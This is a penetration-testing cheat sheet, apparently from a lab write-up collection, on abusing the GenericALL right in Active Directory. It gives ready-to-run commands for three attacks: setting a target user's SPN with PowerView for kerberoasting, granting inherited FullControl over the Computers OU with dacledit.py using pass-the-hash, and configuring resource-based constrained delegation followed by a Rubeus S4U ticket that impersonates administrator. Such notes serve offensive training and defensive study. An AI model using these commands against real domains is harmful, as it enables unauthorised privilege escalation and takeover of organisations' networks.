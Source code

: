 # GenericALL

## Abuse

### On a User

If we have sufficient right, a target user's SPN can be set to anything in the domain (unique in the domain) and then kerberoasted

To set the SPN to the user using powerview:

{% code overflow="wrap" %}
```powershell
Set-DomainObject -Identity <$Target user> -Set @{serviceprincipalname='<$Domain/myspn>'}
```
{% endcode %}

now you can [kerberoast ](../kerberoasting.md)it.

### On a OU

and use it to modify the dacl on computers OU (All sub object will inherite the dacl)

{% code overflow="wrap" %}
```
./dacledit.py -action 'write' -rights 'FullControl' -inheritance -principal 'SQL$' -target-dn 'CN=COMPUTERS,DC=ACADEMY,DC=NINJA,DC=LAN' -hashes 'aad3b435b51404eeaad3b435b51404ee:bc97a8db7f565a18bbb3b2b4eaefb95a' -dc-ip 192.168.58.20 academy/SQL$
```
{% endcode %}

<figure><img src="https://github.com/italianpenty/WriteUps/raw/main/.gitbook/assets/Pasted%20image%2020240315151638.png" alt=""><figcaption></figcaption></figure>

Now you will have GenericALL on all the machine in the OU.

### Over Computer Object

Set RBCD to a machine that yoy own:

{% code overflow="wrap" %}
```
Set-ADComputer -Identity <$Target> -PrincipalsAllowedToDelegateToAccount <Owned$> -Verbose
```
{% endcode %}

Now use rubeus to use a s4u attack

{% code overflow="wrap" %}
```powershell
Rubeus.exe s4u /user:<Own>$  /aes256:<aes256>/msdsspn:<$service target> /impersonateuser:administrator /ptt
```
{% endcode %}

<figure><img src="https://github.com/italianpenty/WriteUps/raw/main/.gitbook/assets/image%20(7).png" alt=""><figcaption></figcaption></figure>

\
